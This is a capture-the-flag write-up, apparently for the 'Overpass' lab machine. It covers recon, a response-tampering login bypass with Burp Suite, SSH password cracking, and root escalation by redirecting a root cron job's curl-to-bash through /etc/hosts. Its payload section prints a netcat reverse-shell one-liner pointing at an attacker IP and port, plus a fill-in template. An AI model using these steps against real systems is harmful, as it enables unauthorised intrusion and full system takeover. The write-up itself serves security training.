 # Overpass

![image](https://user-images.githubusercontent.com/56447720/152143895-b8522100-61fa-42e1-8abb-306b80561bd4.png)

## Port Scan

![image](https://user-images.githubusercontent.com/56447720/152144739-6ae3e614-a68d-4bd7-9eca-884fcdea459f.png)

## Directory Scan

![image](https://user-images.githubusercontent.com/56447720/152144710-e6bb61eb-a1b5-408d-8f2e-5b107eb93395.png)

## Web Exploitation

* After seeing all the directories, `/admin` was most intresting to me
* Looking at the source code I found some intresting `.js` files

![image](https://user-images.githubusercontent.com/56447720/152147048-d4bc52bb-70d6-4af0-92b3-fba0257ca596.png)

* `login.js`

![image](https://user-images.githubusercontent.com/56447720/152147124-ee118f84-0d94-45ae-879c-de24d58c099c.png)

* This piece of code has an vulnerability, it checks the response of the browser and if it doesn't incorrect credentials, it redirect us to the `/admin` page

### get admin privilege

* Intercept login request with burp suite and change the response to get the admin panel
* Right-click on the request and > `Do intercept > Request to this response`
* This is the response we get

![image](https://user-images.githubusercontent.com/56447720/152158989-93c0e69f-9364-4bdb-a243-64e95de1ba45.png)

* Updated response

![image](https://user-images.githubusercontent.com/56447720/152159958-e3988a42-f46f-475d-be48-e5134413fb09.png)

* Admin homepage

![image](https://user-images.githubusercontent.com/56447720/152148206-19006b3b-36a2-45ea-a01b-b5238cf6dd15.png)

## User Shell

* we got username from the admin panel, I've used John to crack the SSH password

![image](https://user-images.githubusercontent.com/56447720/152148911-efbb5b6e-b5af-4542-bb3e-376f175f869f.png)

* We successfully got a shell

![image](https://user-images.githubusercontent.com/56447720/152149341-ed01b623-5068-40aa-b12b-c30461039446.png)

## Root shell

* I've used python server to get `linpeas` into the machine

![image](https://user-images.githubusercontent.com/56447720/152151534-86421dbc-71e7-46f0-9c42-2be09fe27284.png) ![image](https://user-images.githubusercontent.com/56447720/152151754-b3fe921b-929d-4572-83c0-0bc6247d1c09.png)

* We have permission to write in `/etc/hosts`

![image](https://user-images.githubusercontent.com/56447720/152152218-a5b9d408-6b3a-4faa-8f50-a7cc36630dfe.png)

* There's a cronjob running on root service which basicallay uses curl and pipe it into bash
* We are going to change the content of `/etc/hosts` , adding our ip as `overpass.thm`

![image](https://user-images.githubusercontent.com/56447720/152152639-020becb3-8d74-4c13-a70d-5b2bdb1935e5.png)

* First create files in your localhost

![image](https://user-images.githubusercontent.com/56447720/152157538-02d62286-55f3-4714-9dd1-d0a77ce6c4fd.png)

* Add a payload in `buildscript.sh`

```bash
└─$ cat downloads/src/buildscript.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.1.250 4444 >/tmp/f
```

* Add your ip and port `[ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc (IP) (PORT) >/tmp/f ]`
* Start a python3 server

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.120.231 - - [02/Feb/2022 18:17:05] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

```

* Start netcat listener
* Wait around 1 minute to get root shell

![image](https://user-images.githubusercontent.com/56447720/152157330-44f27329-9a6c-4b35-acb7-47c158726fdb.png)

![image](https://user-images.githubusercontent.com/56447720/152157784-02ccbdd4-69f3-4b10-a99e-9ae361faae07.png)
